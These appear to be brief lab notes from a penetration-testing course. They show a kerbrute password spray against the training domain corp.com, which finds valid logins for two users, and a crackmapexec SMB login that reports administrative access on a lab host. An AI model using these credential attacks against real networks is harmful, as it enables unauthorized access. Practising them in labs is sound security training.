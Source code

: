 PS C:\Tools> type .\usernames.txt
pete
dave
jen
PS C:\Tools> .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
...
2024/05/19 03:08:21 >  [+] VALID LOGIN:  jen@corp.com:Nexus123!
2024/05/19 03:08:21 >  [+] VALID LOGIN:  pete@corp.com:Nexus123!
...

# Questions 2
sudo crackmapexec smb 192.168.163.76 -u pete -p 'Nexus123!' -d corp.com
SMB         192.168.163.76  445    CLIENT76         [*] Windows 10 / Server 2016 Build 16299 x64 (name:CLIENT76) (domain:corp.com) (signing:False) (SMBv1:False)
SMB         192.168.163.76  445    CLIENT76         [+] corp.com\pete:Nexus123! (Pwn3d!)
